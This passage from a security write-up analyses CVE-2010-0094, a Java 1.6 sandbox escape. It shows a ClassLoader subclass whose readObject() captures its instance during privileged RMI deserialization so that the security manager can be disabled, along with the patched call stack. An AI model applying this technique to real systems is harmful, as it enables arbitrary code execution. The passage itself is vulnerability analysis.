 However, later in the system code, this instance of _S_ is cast to a type
which is nor _S_, neither _ClassLoader_. So, how can the analyst retrieve
this instance? One solution is to add a static field to _S_ as well as a
method to the _S_ class to save the reference of the instance of _S_ in the
static field:

---------------------------------------------------------------------------
     public class S extends ClassLoader implements Serializable {
     	public static S myCL = null;
     	private void readObject(java.io.ObjectInputStream in)
     	  throws Throwable {
      		S.myCL = this;
     	}
     }
---------------------------------------------------------------------------

The readObject() method is a special method called during deserialization
(by readOrdinaryObject() at line 8 in the above call stack). No permission
check is done at this point, so untrusted code (S.readObject() method) can
be on the call stack.

The analyst now has access to an instance of _S_. Since _S_ is a subclass
of _ClassLoader_, the analyst can define a new class with all privileges
and disable the security manager (similar approach as in Section 3.1.1). At
this point, the sandbox is disabled and the analyst can execute arbitrary
code.

This vulnerability affects 14 versions of Java 1.6 (from version 1.6.0_01
to 1.6.0_18). It has been corrected in version 1.6.0_24.

The combination of the following "features" enables the analyst to bypass
the sandbox: (1) trusted code allows deserialization of data controlled by
untrusted code, (2) deserialization is taking place in a privileged
context, and (3) creating an object by means of deserialization follows a
different procedure than regular object instantiation.

The vulnerability CVE-2010-0094 has been fixed in Java 1.6.0 update 24. The
two calls to doPrivileged() have been removed from the code. In the patched
version, when _ClassLoader_ is initialized, the permission check fails
since the whole call stack is now checked (see the new call stack below).
Untrusted code at lines 21 and below does not have permission
CREATE_CLASSLOADER.

---------------------------------------------------------------------------
  1: Thread [main] (Suspended (breakpoint at line 226 in ClassLoader))
  2: 	MyClassLoader(ClassLoader).<init>() line: 226 [local variables
     		unavailable]
  4: 	GeneratedSerializationConstructorAccessor1.newInstance(Object[])
     		line: not available
  6: 	Constructor<T>.newInstance(Object...) line: 513
  7: 	ObjectStreamClass.newInstance() line: 924
  8: 	MarshalledObject$MarshalledObjectInputStream
     		(ObjectInputStream).readOrdinaryObject(boolean) line: 1736
 10: 	MarshalledObject$MarshalledObjectInputStream(ObjectInputStream)
     		.readObject0(boolean) line: 1328
 12: 	MarshalledObject$MarshalledObjectInputStream(ObjectInputStream)
     		.readObject() line: 350
 14: 	MarshalledObject<T>.get() line: 142
 15: 	RMIConnectionImpl.unwrap(MarshalledObject, ClassLoader,
     		Class<T>) line: 1523
 17: 	RMIConnectionImpl.unwrap(MarshalledObject, ClassLoader,
     		ClassLoader, Class<T>) line: 1559
 19: 	RMIConnectionImpl.createMBean(String, ObjectName, ObjectName,
     		MarshalledObject, String[], Subject) line: 376
 21: 	Exploit.exploit() line: 79
 22: 	Exploit(BypassExploit).run_exploit() line: 24